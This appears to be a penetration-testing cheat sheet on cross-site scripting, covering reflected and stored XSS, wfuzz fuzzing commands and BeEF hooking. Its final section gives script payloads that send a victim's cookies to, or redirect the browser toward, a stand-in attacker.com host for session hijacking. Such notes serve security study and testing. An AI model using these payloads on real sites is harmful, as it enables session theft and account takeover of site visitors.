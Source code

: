 # Cross Site Scripting

## Things to remember
  *  PayloadsAllTheThings contains tons of [XSS payloads and filter bypass techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
  *  Descriptions summarized from [OWASP XSS page](https://owasp.org/www-community/attacks/xss/)
  *  Reflected XSS coerces the victim browser to send the payload to the server
      *  The server "reflects" the payload back to the browser
      *  e.g. Specially crafted links, redirects, etc.
  *  Stored XSS involves storing the payload on the server
      *  Affects any user that visits the page containing the payload

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) for manually fuzzing web app inputs for command injection
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for some command injection fuzzing lists
  *  [`BeEF`](https://beefproject.com/) for hooking/controlling/exploiting browsers

## Fuzzing for XSS
  *  `wfuzz` for XSS fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  Plenty of XSS wordlists available in `seclists`

```
wfuzz -w /path/to/xss.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/xss?param=FUZZ'
wfuzz -w /path/to/xss.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/xss'
```

## Exploiting XSS
  *  Implant `BeEF` hooks to leverage XSS into browser control
  *  Consider chaining XSS into various client-side attacks
      *  Browser exploit, harvester implant/redirect, drive-by download, etc.
  *  Consider chaining XSS into session hijack by stealing cookies/tokens
      *  PayloadsAllTheThings has a list of [payloads for cookie/token theft](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber-for-xss)

```
<img src="http://attacker.com/" />
<script>new Image().src="http://attacker.com/"+document.cookie;</script>
<script>window.location.href="http://attacker.com/harvester";</script>
```
